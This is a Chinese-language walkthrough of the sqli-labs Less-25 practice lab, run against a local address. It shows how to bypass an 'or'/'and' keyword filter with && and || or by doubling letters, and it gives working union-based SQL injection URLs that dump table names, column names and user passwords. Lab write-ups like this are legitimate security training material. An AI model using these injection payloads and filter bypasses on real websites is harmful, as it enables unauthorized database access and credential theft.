


# Less - 25

---

# 通关教程

---

## 1、判断闭合

---

​​

​​

​​

根据错误显示判断闭合类型为'--+，通过观察源码，发现过滤了or和and

​​

可以使用符号替换'OR'和'AND'，替换：如and可替换为&&，or可替换为||

---

## 2、查看当前数据库

---

```bash
http://192.168.225.132/sqli-labs/Less-25/?id=-1' union select 1,2,database()--+
```

​​

---

## 3、查看security库下的所有表

---

```bash
http://192.168.225.132/sqli-labs/Less-25/?id=-1' union select 1,2,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema='security')--+
```

​​

---

## 4、查看users表下的所有字段

---

这里有一个问题，information_schema.tables里面也是有or的，这里我们使用双写绕过

```bash
http://192.168.225.132/sqli-labs/Less-25/?id=-1' union select 1,2,(select group_concat(column_name) from infoorrmation_schema.columns where table_name='users')--+
```

​​

---

## 5、查看username,password字段的值

---

password里面也含有or，也采取双写绕过

```bash
http://192.168.225.132/sqli-labs/Less-25/?id=-1' union select 1,2,(select group_concat(username,passwoorrd) from security.users)--+
```

​​

‍
